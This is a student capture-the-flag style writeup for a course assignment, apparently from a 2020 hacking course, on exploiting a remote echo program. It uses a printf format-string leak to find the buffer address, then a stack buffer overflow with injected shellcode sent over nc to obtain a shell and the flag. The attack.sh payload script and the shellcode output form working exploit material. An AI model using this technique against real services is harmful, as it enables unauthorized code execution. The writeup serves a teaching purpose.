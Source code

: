 +++
title = "Writeup for assignment 5"
date = 2020-06-11
summary = "Solutions and explanations for assignment 5"

draft = true
toc = true
type = "docs"

highlight = true
highlight_languages = ["c", "makefile", "shell", "plaintext"]

authors= [
"thom"
]

[menu.hic2020]
name = "Writeup Assignment 5"
parent = "Assignments"

#weight = 30
+++
# Writeup "Overflowing a buffer"

## Analysis

The program we get prints back any input we give to it.

1. We start out by giving the program a lot of "A"s for input.
    1. We see that when we give it more than 104 bytes, we get some garbage output at the end.
        * The size of the buffer is probably 100 bytes
        * This garbage is probably some other variable above our buffer that gets written after we overflow the buffer
    1. When we give it 114 bytes of input, it crashes
        * We are probably starting to overwrite a frame pointer or return address

Using what we know of the stack and what we learnt, we can draw this picture of the stack:

```plaintext
+================================+ 0x7ffff
| main()                         |
+================================+
| ....                           |
+================================+
| return address                 |
+--------------------------------+
| frame pointer                  |
+--------------------------------+
| unknown variable               |
| buffer[100]                    |
+--------------------------------+
```

2. We now try a `%p` and see that we have a `printf` vulnerability.
    1. We give it 30x`"%p "`, so 90 bytes, to stay within the buffer, and obtain the following output:
    ```plaintext
    0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070 0 0x7fffffffebd0 0x7fffffffec60
    0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70
    0x55555555524f 0x1 0x7ffff7f851f5 0x7ffff7f851ce
    0x7fffffffecb0 0
    ```

    2. We know that the first few arguments are register values, so we ignore them.
    3. We see then a bunch of ``0x702520`` values: we hex decode this and see it's the hex encoding of `p`, `%` and `space` in ASCII.
    4. We see that there is a value `0x555555555236` which we hypothesise is the return address of our stack frame
        1. we see another similar address behind it, probably another stack frame.
    5. We see ``0x7fffffffec60`` before it that could very well be the frame pointer: it's a stack address because it starts with `0x7ff`.
    6. We see before the frame pointer some other value `0x7fffffffebd0`, which appears to be an address on the stack. This may be our unknown variable.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    |
+----------------------------------+
| frame pointer  0x7fffffffec60    |
+----------------------------------+
| unknown variable: 0x7fffffffebd0?|
| buffer[100]: 0x702520...         |
+----------------------------------+
```

3. Hypothesis: `0x7fffffffebd0` is the address of buffer.
    * `gets` returns the address of the buffer that is read into, so it's likely that that address is a local variable on the stack.

## Attack

1. We need to insert our shellcode at the start of the buffer
2. Followed by some `%p`s that we will use to position the return address
3. Followed by the return address `0x7fffffffebd0` in little-endian form.

We modify `attack.sh` in the following way:

```sh
# The first argument $1 is the number of %ps
for i in $(seq 0 $1); do
    attackstr="${attackstr}%p "
done

# if we provide a second argument insert the shellcode
# We also use $2 to indicate the number of NOPs we want
if ! [ "$2" = "" ]; then
    attackstr="$(shellcode list $2)$attackstr"
fi

# The third argument is the return address we want to use
if ! [ "$3" = "" ]; then
    attackstr="${attackstr}$(reverseaddr $3)"
fi

# print len
echo "Attack string is $(echo attackstr | wc -c) bytes" >&2
# send attackstr to hackme
echo $attackstr | nc hackme.rded.nl PORT
```

We execute this in the following way:

```sh
./attack.sh <%p count> <num of nops> <address>
```

If we provide 116 bytes, we see that we partially overwrite the frame pointer (we see ``0x7f007fffffff``)
If we provide 118 bytes, we see that we exactly overwrite the frame pointer (we see ``0x2520702520702520 0x7fffffffebd0 0x7fffffffebd0``)

This allows us to update the stack picture with what byte of our input exactly ends up where:
```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 120..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| unknown variable: 0x7fffffffebd0?| 104..110
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```

The return address is 8 bytes behind the frame pointer, so we now write 126 bytes.
We get the output

```plaintext
H1H1H//bin/lsSHRWH;0x7ffff7ffc528 0 0 0x7ffff7ffda40
0 0x9090909090909090 0x9090909090909090 0xd23148c031489090
0x2f6e69622f2fbb48 0x485308ebc148736c 0xb0e689 485752e789
0x7025207025050f3b 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025
FLAG
bin
...
```

We now know that `/bin/ls` was sucessfully executed by the shellcode: the unknown variable is indeed a pointer to buffer.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 110..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| var = &buffer: 0x7fffffffebd0    | 104..112
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```


We now need to switch to the variant that starts `/bin/sh`.

To make sure that we can still provide input to the shellcode, we also switch to the command line with

```sh
(echo $attackstr; cat -) | nc hackme.rded.nl PORT
```

We obtain a shell and type ``cat FLAG``:

```sh
cat /FLAG
HiCCTF{2v3jp6i8GLMCJpDuzD03ILEqKFmcyIMaziEuqi9HXhyoStRi4E2INJopluRr4J1c}
```
